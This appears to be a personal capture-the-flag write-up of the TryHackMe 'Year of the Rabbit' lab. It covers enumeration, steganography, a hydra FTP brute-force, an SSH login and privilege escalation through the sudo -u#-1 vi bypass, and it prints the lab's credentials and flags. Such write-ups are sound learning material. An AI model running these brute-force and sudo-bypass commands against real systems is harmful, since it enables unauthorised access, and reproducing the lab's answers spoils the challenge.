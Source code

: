 ## A. Enumeration

### Nmap

```
┌─[glack@parrot]─[~/Desktop/THM/year of the rabbit]
└──╼ $nmap -sV -sT -A 10.10.9.226

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))

```

no other ports are open

### FTP

1. anonymous login not allowd
2. vsftp vesion is not vulnerable

### HTTP

1. gobuster with small wordlist revealed a `/assets` directory
```
/assets               (Status: 301) [Size: 313] [--> http://10.10.28.251/assets/]
```
![[Pasted image 20230723164546.png]]

2. contents of assets were a rickrolled video and style css
3. Upon reading the style.css, we can find a comment
```
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

4.  When visiting the `/sup3r_s3cr3t_fl4g.php` we get a pop up to disable our javascript



![[Pasted image 20230723164728.png]]

5. Quick google search on `how to temporay pause javascript in firefox` returns this
![[Pasted image 20230723165149.png]]

6. Upon clicking the `f12` key to open developer console, and navigating to the `Debugger` console section, we are able to see the contents of the file
![[Pasted image 20230723165317.png]]


7. Another hint we get is the hint i in the video itself, we i continue getting rick rolled and search for any particular in the `RickRolled.mp4`
8. At `1:00` duration of the video there is a robotic voice sating `I'll put you out of misery, your are looking in the wrong place` 
9. This got me thinking about stegnography so i downloaded the video in background while watching remainder of the video
```
─[glack@parrot]─[~/Desktop/THM/year of the rabbit]
└──╼ $wget http://10.10.28.251/assets/RickRolled.mp4 .
```


10. `binwalk` revealed something might be hidden inside the mp4 file, I extracted the files using
```bash
┌─[glack@parrot]─[~/Desktop/THM/year of the rabbit]
└──╼ $binwalk -e RickRolled.mp4
```
11. Got stuck here and used the write up for hint, Rickrolled file was just a rabbit hole,
12. When we intercept the request to ` /sup3r_s3cr3t_fl4g.php` we can see a reference to another hidden directory`http://10.10.28.251/WExYY2Cv-qU/Hot_Babe.png` with a png image in it
![[Pasted image 20230723173525.png]]

13. We extract the png file contents with 
```
┌─[glack@parrot]─[~/Desktop/THM/year of the rabbit/_Hot_Babe.png.extracted]
└──╼ $binwalk -e Hot_Babe.png
```

```
┌─[glack@parrot]─[~/Desktop/THM/year of the rabbit/_Hot_Babe.png.extracted]
└──╼ $ls
36  36.zlib
```

at the end of 36.zlib, we get ftp username and password hint, we use that data to launch a hydra ftp bruteforce attack
ftpusername: ftpuser
ftp password: < wordlist > 

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/year of the rabbit/_Hot_Babe.png.extracted]
└──╼ $hydra -l ftpuser -P ftppass.txt 10.10.28.251 ftp
```

we get a hit:
```
[21][ftp] host: 10.10.28.251   login: ftpuser   password: 5iez1wGXKfPKQ
```

## Shell

1. We login with the above creds and in the ftp we get a file with name:
```
2020 Eli's_Creds.txt
```

2. Contents of Eli's Creds are in encoded format, we will have to decrypt it first
3. With a google search we identified, the contents are in `brainfuck` encoded format, decoded the contets here: https://www.dcode.fr/brainfuck-language
```
User: eli
Password: DSpDiM1wAEwid
```

4. We are able to ssh into target machine with above creds 


## Priv ESC

### Horizontal esc

1. after ssh into the machine we are greeted with a message
```
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```
2. using this as hint that there must be a file name with `s3cr3t` as name
```
eli@year-of-the-rabbit:~$ find / -name *s3cr3t* 2>/dev/null
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
```

3. In the conents of /usr/games/s3cr3t, we get the password for user `gwendoline`
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
4. We can with our user to `gwendoline ` and get the user flag
```
gwendoline@year-of-the-rabbit:~$ cat user.txt 
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```


### Vertical Esc



1. `sudo -l` give the below results
```
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

```

2. Nothing using in SUID bit files as well
3. Used the writeup here, and also updated my notes here

We had to used the mentioned command 
```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

after the `vim` promt is open, all we have to do is press `esc`, followed by `:bash`

and we get the root shell and the flag

```
root@year-of-the-rabbit:/root# cat root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```
